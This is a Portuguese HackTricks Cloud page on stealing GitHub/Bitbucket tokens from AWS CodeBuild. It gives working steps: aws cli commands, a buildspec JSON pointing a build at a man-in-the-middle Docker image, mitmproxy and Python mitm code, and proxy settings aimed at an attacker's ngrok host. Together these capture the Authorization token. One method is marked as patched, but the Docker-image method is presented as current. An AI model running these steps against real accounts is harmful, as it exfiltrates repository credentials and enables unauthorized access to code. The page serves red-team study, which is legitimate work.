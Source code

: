 # AWS Codebuild - Vazamento de Token

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há alguma credencial de origem configurada que você poderia vazar:
```bash
aws codebuild list-source-credentials
```
### Via Imagem Docker

Se você descobrir que a autenticação, por exemplo, no Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo o Codebuild **usar uma imagem Docker específica** para executar a construção do projeto.

Para esse propósito, você poderia **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **Imagem Docker**.

A imagem Docker que você pode usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que configurará as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em **`https_proxy`** e **`http_proxy`** e confie no CERT SSL indicado em **`SSL_CERT_FILE`**.

1. **Crie e Faça Upload da sua própria Imagem Docker MitM**
* Siga as instruções do repositório para configurar seu endereço IP de proxy e configurar seu certificado SSL e **construir a imagem Docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você pode usar **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Uma vez que você tenha a imagem Docker construída, **faça upload dela para um repositório público** (Dockerhub, ECR...)
2. **Configure o ambiente**

* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Configure o projeto para usar a **imagem Docker gerada anteriormente**
*

```
<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
```
3. **Configure o proxy MitM no seu host**
* Como indicado no **repositório Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **Execute a compilação e capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidade foi corrigida pela AWS em algum momento da semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Então, um atacante não pode mais abusar dela :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões foram configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Em seguida, alterar a URL do repositório github para usar HTTP em vez de HTTPS, por exemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Depois, executar o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta indicada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token de sua máquina, listar todos os privilégios que possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
